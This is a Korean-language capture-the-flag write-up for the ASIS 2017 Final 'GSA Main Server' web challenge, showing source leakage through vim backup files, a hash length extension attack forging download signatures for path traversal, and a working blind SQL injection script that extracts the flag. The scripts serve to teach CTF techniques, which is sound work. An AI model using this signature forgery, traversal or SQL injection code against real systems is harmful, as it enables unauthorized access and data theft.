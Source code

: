 # [WEB] ASIS 2017 FINAL - GSA Main Server

# Description
global security agency main server, it interacts with several GSA's servers. Try to find some holes, and you will be rewarded a flag.

> Host: gsa.mainServer.domain
> Scope: 178.62.34.76:\*
> Hint: Forget the XSS

# Analysis
페이지에 접근하면 단순 뷰페이지로 구성되어 있는거 같다.
http://178.62.34.76/index.php~ 를 요청하면 소스를 볼 수 있다.
소스 중에서 흥미로운 부분은 functions.php이다.
```php
# index.php~
<? require 'functions.php' ?>
```
http://178.62.34.76/functions.php~ 를 들어가면 다시 소스가 보여진다.
(문제 풀때는 아무생각 없이 ~를 넣었는데 자세히 보니 index.php아래에 vim을 사용한 주석같은게 있었던거 같다.)
```php
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}
```
여기서 흥미로는 함수는 makeSignature이다.
KEY를 md5로 해쉬화 한 후 fineName과 합친 후 다시 md5로 해쉬화 하는데, KEY를 알아낼 수가 없다!

소스 분석은 이정도로하고 아무 게시물이나 들어가서 다운로드를 요청하면 Response헤더에 `X-Signature: beb2e68c628653c72abcb388b078cfda`와 함께, 파일 `file.txt`을 요청한다.
여기서 보이는 X-Signature값이 위의 makeSignature 함수를 통해 만들어진 값이다.
이를 잘 이용하면 될 것 같다.(하하)

# Exploit
1. Hash Length Extension Vulnerability
2. SQLi

## 1. Hash Length Extension Vulnerability
우선 X-Signature를 맞춰줘야 원하는 파일을 다운받을 수 있다.
md5고 해서 엄청 고민하다가 그냥 문뜩 생각났다. Hash Length Extension 공격이..
(대회 끝나고 간만에 다시보니, sha1과 md5 둘다 padding attack(Hash Length extension)에 취약하며, key를 몰라도 hash(key)와 len(key)가 주어지면 hash(key||key')를 구할 수 있다.)
> 참고 : https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

파이썬 스크립트를 작성하여 해쉬를 만들어 원하는 파일을 요청하게 만들었다.

```python
import hashpumpy
import urllib2
import urllib

url = "http://178.62.34.76/getAttachment/"

origin_sig = "beb2e68c628653c72abcb388b078cfda"
origin_data = "file.txt"
key_length = 32

while 1:
	append_data = '?/'+raw_input("path : ")
	new_signature,new_data  = hashpumpy.hashpump(origin_sig,origin_data,append_data,key_length)
	print 'new signature : %s'%(new_signature)
	print 'new data : %s'%(new_data).encode('hex')
	req = urllib2.Request(url+urllib.quote_plus(urllib.quote_plus(new_data)))
	req.add_header('X-Signature',new_signature)
	res = urllib2.urlopen(req)
	print res.read()
```

이를 이용해 LFI를 했는데, .htaccess파일에서 힌트를 얻을 수 있었다.
```
path : ../../.htaccess
new signature : 77a6762d005d965a0ee69202bd67ca28
new data : 66696c652e7478748000000000000000000000000000000040010000000000003f2f2e2e2f2e2e2f2e6874616363657373
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]
```
오 showInformation 또는 notConfirmedInformation에서 인젝션이 나올 거 같이 생겼다.

## 2. SQLi
위에서 발견한 위치 중 notConfirmedInformation에서 SQLi가 발생하였다.
참일 경우 Visited의 값이 오르고, 거짓이면 Visited의 값이 오르지 않는다.(Blind SQLi!!!)
데이터를 뽑아보자!

```python
import urllib2
import urllib
from multiprocessing import Pool
import itertools
import sys

ue = lambda x:urllib.quote(x)
url = "http://178.62.34.76/notConfirmedInformation/"
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='gsaportal')),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(flag)from(flag)),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))

if __name__ == '__main__':
    result = bytearray()
    prev_visited = 419
    for i in range(1,80):
        tmp = 0
        for j in range(1,8):
            req = urllib2.Request(url+ query(i,j))
            res = urllib2.urlopen(req)
            visited = int(res.read().split('Visited:</b> ')[1].split('</div>')[0])
            if visited == prev_visited+1:
                prev_visited = visited
                tmp = tmp + (1<<(j-1))
        if tmp==0:
            break
        result.append(chr(tmp))
        sys.stdout.write(chr(tmp))
        sys.stdout.flush()
```

뽑혔다.
flag테이블의 flag컬럼에서 flag를 얻을 수 있다.(flag....)

**ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}**
